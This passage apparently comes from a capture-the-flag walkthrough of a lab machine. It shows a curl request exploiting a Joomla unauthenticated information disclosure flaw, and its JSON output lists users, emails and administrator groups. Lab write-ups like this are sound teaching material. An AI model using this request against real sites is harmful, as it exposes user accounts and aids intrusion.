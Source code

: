 <p>This version seems to be vulnerable: <a href="https://www.exploit-db.com/exploits/51334">unauthenticated information disclosure</a>.</p>

<p>There's an exploit available, but by reading its code we can see that it consists of calls to an API endpoint. We can exploit it with Curl or even rewrite the exploit in a different language if we feel like it. I'll use Curl.</p>

<p>First, we can get information about the users:</p>

```bash
curl "http://dev.devvortex.htb/api/index.php/v1/users?public=true" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   725    0   725    0     0   5818      0 --:--:-- --:--:-- --:--:--  5846
{
  "links": {
    "self": "http://dev.devvortex.htb/api/index.php/v1/users?public=true"
  },
  "data": [
    {
      "type": "users",
      "id": "649",
      "attributes": {
        "id": 649,
        "name": "lewis",
        "username": "lewis",
        "email": "lewis@devvortex.htb",
        "block": 0,
        "sendEmail": 1,
        "registerDate": "2023-09-25 16:44:24",
        "lastvisitDate": "2024-05-09 15:46:56",
        "lastResetTime": null,
        "resetCount": 0,
        "group_count": 1,
        "group_names": "Super Users"
      }
    },
    {
      "type": "users",
      "id": "650",
      "attributes": {
        "id": 650,
        "name": "logan paul",
        "username": "logan",
        "email": "logan@devvortex.htb",
        "block": 0,
        "sendEmail": 0,
        "registerDate": "2023-09-26 19:15:42",
        "lastvisitDate": null,
        "lastResetTime": null,
        "resetCount": 0,
        "group_count": 3,
        "group_names": "Registered\nAdministrator\nSuper Users"
      }
    }
  ],
  "meta": {
    "total-pages": 1
  }
}
```
